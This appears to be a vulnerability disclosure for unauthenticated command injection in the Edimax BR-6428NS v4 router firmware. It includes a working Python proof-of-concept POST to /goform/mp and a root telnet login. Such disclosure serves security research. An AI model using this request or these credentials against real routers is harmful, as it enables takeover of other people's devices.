




# Command Injection

Command injection without any limitations

## Firmware

Wireless: Edimax home Wireless Routers N300 

Firmware Version: BR-6428NS_v4_1.10

You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4) and use FirmAE to simulate the router environment.

FirmAE command: `./run.sh -r v4 BR-6428NS_v4_1.10.bin`(This will take a while, please be patient:)



## Description

The vulnerability was found in **/bin/webs**.

Function is  **mp**



The post parameter **command** will be sprintf as $0 which will be executed



## poc

python

```python
import requests

command = "touch /tmp/Swe3ty2"

url = "http://192.168.2.1/goform/mp"
data = {
	"command":"`"+command+"`"
}

r = requests.post(url,data=data)
print(r.text)
```

use **root/edimaxens** telnet to the router

```shell
telnet 192.168.2.1
```


